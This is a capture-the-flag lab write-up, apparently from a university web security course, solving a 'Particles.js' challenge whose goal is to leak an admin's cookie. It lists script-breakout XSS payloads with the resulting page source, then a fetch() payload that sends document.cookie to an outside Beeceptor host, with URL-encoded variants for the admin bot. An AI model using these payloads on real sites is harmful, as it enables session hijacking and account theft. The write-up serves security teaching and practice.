 ```yaml
---
title: Simple Web - 0x08(Lab - `Particles.js`)
tags: [CTF, Web, eductf]

category: "Security > Course > NTU CS > Web"
---
```


# Simple Web - 0x08(Lab - `Particles.js`)
###### tags: `CTF` `Web` `eductf`
Challenge: https://particles.ctf.zoolab.org

## Description
The website can change the theme of layout. The main goal is to leak admin's cookie.

## Source Code

### Analysis

## Exploit - XSS
1. Use burp suit to check if the website has XSS vulnerability.
![](https://i.imgur.com/eu4Qqrs.png)
2. Try to modify `config` parameter
Payload 1: `1;alert(123);console.log({x://\`
    :::spoiler Response 1
    ```javascript!
    ...
    <script>
        url.value = location; config.value = '1;
        alert(123);
        console.log({x://\'; fetch('/1;alert(123);console.log({x://\.json').then(r => r.json()).then(json => {
            particlesJS("particles-js", json)
        })
    </script>
    ...
    ```
    :::
    or
    Payload 2: `</script><script>alert(123);</script>`
    :::spoiler Response 2
    ```javascript!
    ...
    <script>
    url.value = location; config.value = '
    </script>
    <script>
        alert(123);
    </script>
    '; fetch('/</script>
    <script>
        alert(123);
    </script>
    .json').then(r => r.json()).then(json => {
            particlesJS("particles-js", json)
        })
    </script>
    ...
    ```
    :::
    or 
    Payload 3: `</script><script>alert(123);</script><script>console.log({x://`
    :::spoiler Response 3
    ```javascript!
    ...
    <script>
    url.value = location; config.value = '
    </script>
    <script>
        alert(123);
    </script>
    <script>
        console.log({x://'; fetch('/
    </script>
    <script>   
        alert(123);
    </script>
    <script>
        console.log({x://.json').then(r => r.json()).then(json => {
            particlesJS("particles-js", json)
        })
    </script>
    ...
    ```
    :::
    ![](https://i.imgur.com/yDcnYv8.png)
3. `fetch` + [`Beeceptor`](https://beeceptor.com/)
Payload: 
    ```javascript!
    </script><script>fetch(%22https://sbk6401.free.beeceptor.com?%22%2bdocument.cookie);</script>
    ```
    **<font color="FF0000">Note that:</font>** MUST TRANSFER `+` AND `"` TO `%2B` AND `%22` RESPECTIVELY
    URL: 
    ```!
    https://particles.ctf.zoolab.org/?config=%3C/script%3E%3Cscript%3Efetch(%22https://sbkkk.free.beeceptor.com?%22%2bdocument.cookie);%3C/script%3E
    ```
    ![](https://i.imgur.com/VIPx7bb.png)

4. Report to author
Must encoded by [`URL encode`](https://www.urlencoder.org/)
Payload:
    ```!
    https%3A%2F%2Fparticles.ctf.zoolab.org%2F%3Fconfig%3D%3C%2Fscript%3E%3Cscript%3Efetch%28%2522https%3A%2F%2Fsbkkk.free.beeceptor.com%3F%2522%252bdocument.cookie%29%3B%3C%2Fscript%3E
    ```
    ![](https://i.imgur.com/HMhXfGN.png)
    ![](https://i.imgur.com/1qNlp1t.png)

* Other payload:
    :::spoiler payload
    Payload 2
    ```!
    url=https%3A%2F%2Fparticles.ctf.zoolab.org%2F%3Fconfig%3D%3C%2Fscript%3E%3Cscript%3Efetch%28%2522https%3A%2F%2Fsbk6401.free.beeceptor.com%3F%2522%252bdocument.cookie%29%3B%3C%2Fscript%3E%3Cscript%3Econsole.log%28%7Bx%3A%2F%2F
    ```
    Payload 3
    ```!
    url=https%3A%2F%2Fparticles.ctf.zoolab.org%2F%3Fconfig%3D%3C%2Fscript%3E%3Cscript%3Efetch%28%2522https%3A%2F%2Fsbk6401.free.beeceptor.com%3F%2522%252bdocument.cookie%29%3B%3C%2Fscript%3E
    ```
    :::